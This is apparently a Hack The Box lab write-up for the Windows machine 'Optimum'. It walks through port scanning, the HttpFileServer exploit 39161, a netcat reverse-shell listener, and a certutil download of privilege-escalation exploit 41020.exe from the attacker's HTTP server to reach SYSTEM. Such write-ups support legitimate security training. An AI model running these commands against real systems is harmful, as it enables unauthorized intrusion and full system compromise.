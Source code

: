 # Optimum 

**OS:** Windows

**Level:** Easy

**Links:** [1](https://www.hackthebox.com/machines/Optimum)  [2](https://app.hackthebox.com/machines/Optimum)

**Machine ip:** 10.10.10.8

![Optimum](https://github.com/h4md153v63n/CTFs/assets/5091265/f0fe7004-231f-495f-b3b2-8af6d4e6d81a)


## Reconnaissance
```
sudo masscan -p1-65535,U:1-65535 --rate=1000 10.10.10.8 -e tun0 > ports

ports=$(cat ports | awk -F " " '{print $4}' | awk -F "/" '{print $1}' | sort -n | tr '\n' ',' | sed 's/,$//')

sudo nmap -Pn -n -sV -sC -O -p$ports 10.10.10.8 --open
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/6bd17850-1383-4bb9-9363-f840a535bbc5)


## Enumeration
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/7b8a57ae-f7cc-4fee-a4bb-d9d8ae1f2ddb)

```
searchsploit httpfileserver

searchsploit -m 39161
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/160c6e02-5cc4-4c84-aa44-b51481749738)

Change ip addres and port number:

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/fbbb8068-00c8-4bda-8ae5-9b062ae8d92a)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/a62cd8b5-3931-4863-9e43-c9bd8ca44602)


## Exploitation & Gaining Access
```
# On the kali attack vm:
cp /usr/share/windows-binaries/nc.exe .

# On the kali attack vm - different terminal:
sudo python3 -m http.server 80

# On the kali attack vm - different terminal you will get the revershell:
nc -nlvp 4444

# On the kali attack vm - different terminal:
python3 39161.py 10.10.10.8 80

python3 39161.py 10.10.10.8 80

```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/0b3ad525-c717-4f8c-a61c-6bf6381ab8f2)


## Privilege Escalation
```
# On the kali attack vm:
python2 windows-exploit-suggester.py --update

python2 windows-exploit-suggester.py --database 2024-04-08-mssb.xls --systeminfo systeminfo.txt

# On the target machine:
systeminfo
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/32eb7f0c-5bb7-41b6-8d33-dfb5f11445a1)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/a43d3006-c5f2-4141-9446-154e5c8169ea)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/c48e9398-e5c2-4853-9bd8-1b9d0596b083)

```
# On the kali attack vm:
searchsploit 41020

searchsploit -m 41020

wget https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/41020.exe

sudo python3 -m http.server

# On the target machine:
certutil.exe -urlcache -split -f "http://10.10.14.24:8000/41020.exe" 41020.exe

41020.exe
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/d51b7047-a7a0-4610-90a0-f28a43dbaa68)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/5cbb257e-323c-4c60-9ba7-7cd637287e51)

Get the shell as **nt authority\system**, and root flag.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/4616bddf-9e5c-47fc-ad79-1f42c84449c8)


# References & Alternatives
+ https://vvmlist.github.io/#Optimum
+ x


## CVE Scripting
+ x


## Tools
+ x


## Technical Knowledge
+ x


## Problems Solution
+ **SyntaxError: (unicode error) 'unicodeescape' codec can't decode bytes in position 2-3: truncated \UXXXXXXXX escape:**
  + https://youtu.be/rNmF991BSTE?t=40
  + https://www.geeksforgeeks.org/how-to-fix-syntaxerror-unicode-error-unicodeescape-codec-cant-decode-bytes/
  + https://community.alteryx.com/t5/Alteryx-Designer-Desktop-Discussions/Error-unicodeescape-codec-can-t-decode-bytes/td-p/427540
+ **SyntaxError: Missing parentheses in call to 'print'. Did you mean print(...)?:**
  + https://www.w3docs.com/snippets/python/what-does-syntaxerror-missing-parentheses-in-call-to-print-mean-in-python.html
  + https://stackoverflow.com/questions/25445439/what-does-syntaxerror-missing-parentheses-in-call-to-print-mean-in-python
+ **ModuleNotFoundError: No module named 'urllib2':**
  + https://www.easytweaks.com/module-not-found-urllib2/
  + https://youtu.be/jfD_9DoWGlI?t=63
  + https://blog.finxter.com/fix-import-error-no-module-named-urllib2-python/
+ **ERROR: Could not find a version that satisfies the requirement urllib (from versions: none):**
  + https://github.com/ThomasTJdev/python_gdork_sqli/issues/1
+ **xlrd.biffh.XLRDError: Excel xlsx file; not supported:**
  + https://stackoverflow.com/questions/65254535/xlrd-biffh-xlrderror-excel-xlsx-file-not-supported


## For More
- x
